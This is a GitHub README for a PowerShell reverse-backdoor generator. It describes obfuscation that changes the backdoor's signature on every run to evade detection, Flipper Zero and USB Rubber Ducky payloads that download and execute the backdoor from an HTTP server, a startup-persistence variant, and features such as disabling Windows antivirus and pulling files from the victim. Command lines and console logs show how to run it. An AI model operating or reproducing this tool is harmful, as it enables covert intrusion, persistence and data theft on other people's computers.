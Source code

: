 # powershell-backdoor
Reverse backdoor written in Powershell and obfuscated with Python. Allowing the backdoor to have a new signature after every run. Also can generate auto run scripts for Flipper Zero and USB Rubber Ducky.
```
usage: listen.py [-h] [--ip-address IP_ADDRESS] [--port PORT] [--random] [--out OUT] [--verbose] [--delay DELAY] [--flipper FLIPPER] [--ducky]
                 [--server-port SERVER_PORT] [--payload PAYLOAD] [--list--payloads] [-k KEYBOARD] [-L] [-H]

Powershell Backdoor Generator

options:
  -h, --help            show this help message and exit
  --ip-address IP_ADDRESS, -i IP_ADDRESS
                        IP Address to bind the backdoor too (default: 192.168.X.XX)
  --port PORT, -p PORT  Port for the backdoor to connect over (default: 4444)
  --random, -r          Randomizes the outputed backdoor's file name
  --out OUT, -o OUT     Specify the backdoor filename (relative file names)
  --verbose, -v         Show verbose output
  --delay DELAY         Delay in milliseconds before Flipper Zero/Ducky-Script payload execution (default:100)
  --flipper FLIPPER     Payload file for flipper zero (includes EOL conversion) (relative file name)
  --ducky               Creates an inject.bin for the http server
  --server-port SERVER_PORT
                        Port to run the HTTP server on (--server) (default: 8080)
  --payload PAYLOAD     USB Rubber Ducky/Flipper Zero backdoor payload to execute
  --list--payloads      List all available payloads
  -k KEYBOARD, --keyboard KEYBOARD
                        Keyboard layout for Bad Usb/Flipper Zero (default: us)
  -A, --actually-listen
                        Just listen for any backdoor connections
  -H, --listen-and-host
                        Just listen for any backdoor connections and host the backdoor directory
```
# Quick Links
* [Preview](#preview)
* [Features](#features)
* [Standard Backdoor](#standard-backdoor)
* [Flipper Zero Backdoor](#flipper-zero-backdoor)
* [USB Rubber Ducky Backdoor](#usb-rubber-ducky-backdoor)
* [Thanks](#thanks)
* [To Do](#to-do)

## Preview
![preview](/core/images/preview.PNG)
<br>

## Features
* Hak5 Rubber Ducky payload
* Flipper Zero payload
* Download Files from remote system
* Fetch target computers public IP address
* List local users
* Disable Windows AV (Requires Admin Priv)
* Find Intresting Files
* Get OS Information
* Get BIOS Information
* Get Anti-Virus Status
* Get Active TCP Clients
* Checks for common pentesting software installed

## Standard backdoor
``` bash
C:\Users\DrewQ\Desktop\powershell-backdoor-main> python .\listen.py --verbose
[*] Encoding backdoor script
[*] Saved backdoor backdoor.ps1 sha1:32b9ca5c3cd088323da7aed161a788709d171b71
[*] Starting Backdoor Listener 192.168.0.223:4444 use CTRL+BREAK to stop
```
A file in the current working directory will be created called backdoor.ps1

# Bad USB/ USB Rubber Ducky attacks
When using any of these attacks you will be opening up a HTTP server hosting the backdoor. Once the backdoor is retrieved the HTTP server will be shutdown.

## Payloads
   * Execute -- Execute the backdoor 
   * BindAndExecute -- Place the backdoor in temp, bind the backdoor to startup and then execute it.
## Flipper Zero Backdoor
```
C:\Users\DrewQ\Desktop\powershell-backdoor-main> python .\listen.py --flipper powershell_backdoor.txt --payload execute
[*] Started HTTP server hosting file: http://192.168.0.223:8989/backdoor.ps1
[*] Starting Backdoor Listener 192.168.0.223:4444 use CTRL+BREAK to stop
```
Place the text file you specified (e.g: powershell_backdoor.txt) into your flipper zero. When the payload is executed 
it will download and execute backdoor.ps1

## Usb Rubber Ducky Backdoor
```
 C:\Users\DrewQ\Desktop\powershell-backdoor-main> python .\listen.py --ducky --payload BindAndExecute
[*] Started HTTP server hosting file: http://192.168.0.223:8989/backdoor.ps1
[*] Starting Backdoor Listener 192.168.0.223:4444 use CTRL+BREAK to stop
```
A file named inject.bin will be placed in your current working directory. Java is required for this feature. When the payload is executed 
it will download and execute backdoor.ps1

## Thanks
To encode payload.txt into inject.bin for USB Rubber Ducky Attacks I use encoder.jar created by ![midnitesnake](https://github.com/midnitesnake).

## Backdoor Execution
Tested on Windows 11, Windows 10 and Kali Linux
```cmd
powershell.exe -File backdoor.ps1 -ExecutionPolicy Unrestricted
```
```cmd
┌──(drew㉿kali)-[/home/drew/Documents]
└─PS> ./backdoor.ps1
```

## To Do 
* Add Standard Backdoor
* Find Writeable Directories
* Get Windows Update Status

## Output of 5 obfuscations/Runs 
```
sha1:c7a5fa3e56640ce48dcc3e8d972e444d9cdd2306
sha1:b32dab7b26cdf6b9548baea6f3cfe5b8f326ceda
sha1:e49ab36a7ad6b9fc195b4130164a508432f347db
sha1:ba40fa061a93cf2ac5b6f2480f6aab4979bd211b
sha1:f2e43320403fb11573178915b7e1f258e7c1b3f0
```
